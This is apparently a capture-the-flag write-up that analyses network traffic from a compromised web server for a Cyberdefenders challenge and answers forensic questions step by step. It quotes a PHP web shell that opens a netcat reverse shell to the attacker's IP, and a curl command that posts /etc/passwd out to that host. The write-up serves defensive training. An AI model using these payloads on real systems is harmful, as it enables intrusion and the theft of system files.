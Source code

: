 ```yaml
---
title: '[Cyberdefenders] - WebInvest'
date: '08/04/2024'
lastmod: '08/04/2024'
tags: ['Network Analysis', 'PCAP', 'Wireshark', 'Exfiltration']
summary: 'Here is my writeup for WebStrike challenge that I completed on Cyberdefenders.'
draft: false
author: ['H4shBadG']
---
```


# Summary

An anomaly was discovered within our company's intranet as our Development team found an unusual file on one of our web servers. Suspecting potential malicious activity, the network team has prepared a pcap file with critical network traffic for analysis for the security team, and you have been tasked with analyzing the pcap.

## Q1 - Understanding the geographical origin of the attack aids in geo-blocking measures and threat intelligence analysis. What city did the attack originate from?

IPinfo on the attacker's IP reveals that the attack is from Tianjin, China.

## Q2 - Knowing the attacker's user-agent assists in creating robust filtering rules. What's the attacker's user agent?

Getting that information on a HTTP request and looking at the User-Agent field, I retrieve the one below :

```
Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
```

## Q3 - We need to identify if there were potential vulnerabilities exploited. What's the name of the malicious web shell uploaded?

On packet 63, I can see some uploading on the server as below :

```
-----------------------------26176590812480906864292095114
Content-Disposition: form-data; name="uploadedFile"; filename="image.jpg.php"
Content-Type: application/x-php

<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 117.11.88.124 8080 >/tmp/f"); ?>

-----------------------------26176590812480906864292095114--
```

This is a simple reverse shell to the attacker IP

## Q4 - Knowing the directory where files uploaded are stored is important for reinforcing defenses against unauthorized access. Which directory is used by the website to store the uploaded files?

Looking on the TCP stream n*9, I got some information where the webshell is uploaded :

```
HTTP/1.1 200 OK
Date: Thu, 30 Nov 2023 18:44:45 GMT
Server: Apache/2.4.52 (Ubuntu)
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Length: 464
Keep-Alive: timeout=5, max=99
Connection: Keep-Alive
Content-Type: text/html;charset=UTF-8

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<html>
 <head>
  <title>Index of /reviews/uploads</title>
 </head>
 <body>
<h1>Index of /reviews/uploads</h1>
  <table>
   <tr><th valign="top"><img src="/icons/blank.gif" alt="[ICO]"></th><th><a href="?C=N;O=D">Name</a></th><th><a href="?C=M;O=A">Last modified</a></th><th><a href="?C=S;O=A">Size</a></th><th><a href="?C=D;O=A">Description</a></th></tr>
   <tr><th colspan="5"><hr></th></tr>
<tr><td valign="top"><img src="/icons/back.gif" alt="[PARENTDIR]"></td><td><a href="/reviews/">Parent Directory</a></td><td>&nbsp;</td><td align="right">  - </td><td>&nbsp;</td></tr>
<tr><td valign="top"><img src="/icons/image2.gif" alt="[IMG]"></td><td><a href="image.jpg.php">image.jpg.php</a></td><td align="right">2023-11-30 13:44  </td><td align="right">102 </td><td>&nbsp;</td></tr>
```

## Q5 - Identifying the port utilized by the web shell helps improve firewall configurations for blocking unauthorized outbound traffic. What port was used by the malicious web shell?

Looking at the reverse shell found in Q3, the reverse shell is communicating on the port 8080. 

```
...nc 117.11.88.124 8080...
```

## Q6 - Understanding the value of compromised data assists in prioritizing incident response actions. What file was the attacker trying to exfiltrate?

Looking through the TCP streams, I found the moment the attacker is accessing the system and trying to get the `passwd` file via POST request.

```
$ curl -X POST -d /etc/passwd http://117.11.88.124:443/
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed

  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
100   368  100   357  100    11  56774   17[393 bytes missing in capture file].$ 
```